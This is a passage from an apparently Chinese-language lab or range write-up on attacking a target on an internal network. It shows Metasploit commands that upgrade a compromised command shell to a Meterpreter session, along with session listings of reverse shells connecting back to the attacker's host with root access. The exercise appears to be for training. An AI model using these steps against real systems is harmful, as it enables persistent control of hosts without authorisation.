 ![](../img/Dracuspicy/48.png)


#### 攻击靶标2-第一层内网的 `victim-2-*`

1. 建立立足点，发现靶标 `victim-2-<2-4>`

```bash
# upgrade cmdshell to meterpreter shell
# 也可以直接 sessions -u 1
```
![](../img/Dracuspicy/49.png)



```bash

#手动升级
search meterpreter type:post
use post/multi/manage/shell_to_meterpreter
show options
set lhost 192.168.56.214
set session 1
run -j
sessions -l
# Active sessions
# ===============
# 
#   Id  Name  Type                   Information          Connection
#   --  ----  ----                   -----------          ----------
#   1         shell cmd/unix                              192.168.56.214:4444 -> 192.168.56.216:60690  (192.168.56.216)
#   2         meterpreter x86/linux  root @ 192.170.84.5  192.168.56.214:4433 -> 192.168.56.216:39756  (192.168.56.216)
```
